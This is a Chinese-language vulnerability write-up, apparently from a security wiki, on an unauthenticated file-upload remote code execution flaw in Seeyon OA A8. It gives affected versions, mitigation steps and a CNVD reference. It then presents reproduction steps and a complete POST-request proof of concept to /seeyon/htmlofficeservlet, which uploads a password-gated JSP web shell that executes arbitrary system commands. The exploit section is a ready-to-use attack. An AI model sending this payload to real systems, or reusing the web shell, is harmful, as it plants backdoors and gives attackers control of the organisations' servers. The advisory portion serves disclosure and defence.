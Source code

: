 致远OA A8 系统远程命令执行漏洞
==============================

一、漏洞简介
------------

该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

二、漏洞影响
------------

漏洞影响的产品版本包括：

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件V7.1

漏洞处置建议

临时修补方案如下：

1、 配置URL访问控制策略；

2、
在公网部署的致远A8+服务器，通过ACL禁止外网对"/seeyon/htmlofficeservlet"路径的访问；

3、 对OA服务器上的网站后门文件进行及时查杀。

建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。
详情请移步CNVD官网查看<https://www.cnvd.org.cn/webinfo/show/5095>

三、复现过程
------------

先访问/seeyon/htmlofficeservlet
![](/Users/aresx/Documents/VulWiki/.resource/致远OAA8系统远程命令执行漏洞/media/rId25.png) 出现DBSTEP V3.0 0 21 0 htmoffice operate
err
![](/Users/aresx/Documents/VulWiki/.resource/致远OAA8系统远程命令执行漏洞/media/rId26.png) 掏出burp进行抓包替换成poc如下
![](/Users/aresx/Documents/VulWiki/.resource/致远OAA8系统远程命令执行漏洞/media/rId27.png) 提交POST请求包，查看回显如下
![](/Users/aresx/Documents/VulWiki/.resource/致远OAA8系统远程命令执行漏洞/media/rId28.png)

### 小结

POC：(POST包)

    POST /seeyon/htmlofficeservlet HTTP/1.1
    Content-Length: 1121
    User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
    Host: xxxxxxxxx
    Pragma: no-cache

    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
    OPTION=S3WYOSWLBSGr
    currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
    CREATEDATE=wUghPB3szB3Xwg66
    RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
    originalFileId=wV66
    originalCreateDate=wUghPB3szB3Xwg66
    FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
    needReadFile=yRWZdAS6
    originalCreateDate=wLSGP4oEzLKAz4=iz=66
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd3344".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7c
